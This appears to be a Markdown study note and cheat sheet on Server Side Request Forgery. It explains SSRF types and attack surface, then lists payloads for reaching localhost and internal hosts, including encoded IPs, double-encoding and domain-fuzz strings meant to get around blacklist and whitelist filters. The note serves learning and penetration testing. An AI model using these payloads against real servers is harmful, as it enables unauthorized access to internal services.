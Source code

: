# Server Side Request Forgery (SSRF)

## What is it?
In SSRF, the attacker can abuse functionality on the server to read or update internal resources. 

When the manipulated request goes to the server, the server-side code picks up the manipulated URL and tries to read data to the manipulated URL. By selecting target URLs, the attacker may be able to read data from services that are not directly exposed on the internet

Note: XXE can lead to SSRF attacks.

## Types of SSRF

### SSRF against server
Attacker gets application to make an HTTP request back to server hosting the application using loopback address (localhost)
Eg: `http://127.0.0.1:80/admin`

### SSRF against other back-end systems
Accessing back-end systems that are not directly reachable by the user. The admin u=interfcae is at some IR address
Eg: `http://192.168.0.68/admin`

### Circumventing common SSRF defenses
1. SSRF with blacklist based input filters - blocking localhost, 127.0.0.1 etc.
    * Changing encoding and casing
    * Registering own domain which resolves to 127.0.0.1
    * Using alternative representations of localhost -> decimal octal etc.

2. SSRF with whitelist based input filters
    * Embed credentials in a URL before hostname, using `@`   
    ```
    https://expected-host@evil-host
    ```
    * Use `#` to indicate URL fragment
    * URL encode characters
    * Use combinations of the above techniques...


## Attack Surface
1. Anything where the server makes an API request to fetch content from the backend.
Eg: to display some information based on user input a POST call might be made

2. Uploading image
Eg: using user input to upload an image into the backend involves sending a POST request with the URL

3. Partial URLs in requests
4. Referrer Header in HTTP response


## Payloads:
```
## Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.①

## CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

## Decimal bypass
http://2130706433/ = http://127.0.0.1
http://017700000001 = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

## Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20

#Obfucating urls by double encoding
http://127.1/%2561dmin/ -> %61 is a in hex. %25 is % in hex. This still resolves to http://127.1/admin

##Domain FUZZ bypass (from https://github.com/0x221b/Wordlists/blob/master/Attacks/SSRF/Whitelist-bypass.txt)
http://{domain}@127.0.0.1
http://127.0.0.1#{domain}
http://{domain}.127.0.0.1
http://127.0.0.1/{domain}
http://127.0.0.1/?d={domain}
https://{domain}@127.0.0.1
https://127.0.0.1#{domain}
https://{domain}.127.0.0.1
https://127.0.0.1/{domain}
https://127.0.0.1/?d={domain}
http://{domain}@localhost
http://localhost#{domain}
http://{domain}.localhost
http://localhost/{domain}
http://localhost/?d={domain}
http://127.0.0.1%00{domain}
http://127.0.0.1?{domain}
http://127.0.0.1///{domain}
https://127.0.0.1%00{domain}
https://127.0.0.1?{domain}
https://127.0.0.1///{domain}
```

More:

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
